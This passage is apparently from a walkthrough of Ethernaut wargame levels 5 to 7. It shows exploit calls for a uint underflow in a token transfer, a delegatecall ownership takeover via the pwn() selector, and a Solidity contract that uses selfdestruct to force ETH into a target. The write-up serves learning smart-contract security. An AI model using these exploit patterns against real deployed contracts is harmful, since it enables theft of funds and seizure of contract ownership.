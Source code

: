 ### 5. Token

We can see our current balancer by running *await contract.balanceOf(player)* in the console. It should be 20.

```jsx
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The contract is trying to do math operations with a *uint* which is dangerous if you're not using the *SafeMath* library or adding checks manually.

Because *_value* is a *uint* the first line of the function will always be true.

If we pass any *_value* greater than the *msg.sender*'s current balance, it will be a negative number, which will underflow the *uint*.

We can run *await contract.transfer("0xF95e4B417963C3Bc65767AA2b4EBD806A5e895F9", 21)* to exploit it. This will underflow since our balance is only 20. Any random address works for the first argument.

### 6. Delegation

This challenge contains two contracts. We need to first figure out which contract is the contract that gets deployed and is the one we can interact with. We can tell it's the second contract (*Delegation*) by running *contract.abi* and looking at the methods.

We can also see the *pwn()* function sets the contract's owner to *msg.sender*. Since it's a delegate call, calling *pwn()* will cause the owner to change to *msg.sender* on the **parent** contract.

First we need the SHA-3 hash of "pwn()" as a string. Metamask injects web3.js into our browser, so we can use that. Or you can use any other way of calculating the SHA-3 hash.

*web3.utils.sha3("pwn()")*

Then we can pass that value as *msg.data* so it executes as a delegate call.

*contract.sendTransaction({data: '0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'})*

### 7. Force

This contract is blank! But there are still ways that it can receive ETH. One of those ways is if a different contract self destructs and passes the ETH that it contains to the blank contract.

We can do this in Remix. Set the value to 1 Wei since it will be lost forever.

```jsx
pragma solidity ^0.6.0;

contract Solution {
    // this address is the address of your level instance contract
    address payable ogContract = 0xfD15CC8c0Bc40c929749ba638922CCAB15343a8E;

    function attack() public payable {
        require(msg.value > 0);
        selfdestruct(ogContract);
    }
}
```
